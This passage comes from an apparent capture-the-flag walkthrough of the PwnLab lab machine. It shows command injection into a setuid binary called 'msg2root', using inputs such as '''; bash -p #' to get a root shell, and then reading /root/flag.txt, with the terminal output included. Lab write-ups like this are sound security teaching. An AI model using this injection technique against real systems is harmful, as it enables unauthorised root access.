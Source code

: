 Indeed, if we execute `id` through this binary, we can see that `euid`, `egid` and `groups` are updated:

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; id #
''; id #

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
mike@pwnlab:/home/mike$
```

Let's have shell:

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash #
''; bash #

bash-4.3$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
bash-4.3$
```


It didn't worked because we have to specify `-p` option in order to have a shell as root:

![bash -p option](/assets/img/vulnhub/linux/pwnlab/bash-p.png)

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash -p #
''; bash -p #

bash-4.3# id
id
uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
```

- **Flag**:

```bash
bash-4.3# cd /root
cd /root
bash-4.3# ls -la
ls -la
total 20
drwx------  2 root root 4096 Mar 17  2016 .
drwxr-xr-x 21 root root 4096 Mar 17  2016 ..
lrwxrwxrwx  1 root root    9 Mar 17  2016 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
----------  1 root root 1840 Mar 17  2016 flag.txt
lrwxrwxrwx  1 root root    9 Mar 17  2016 messages.txt -> /dev/null
lrwxrwxrwx  1 root root    9 Mar 17  2016 .mysql_history -> /dev/null
-rw-r--r--  1 root root  140 Nov 19  2007 .profile
bash-4.3# cat flag.txt
cat flag.txt
.-=~=-.                                                                 .-=~=-.
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
```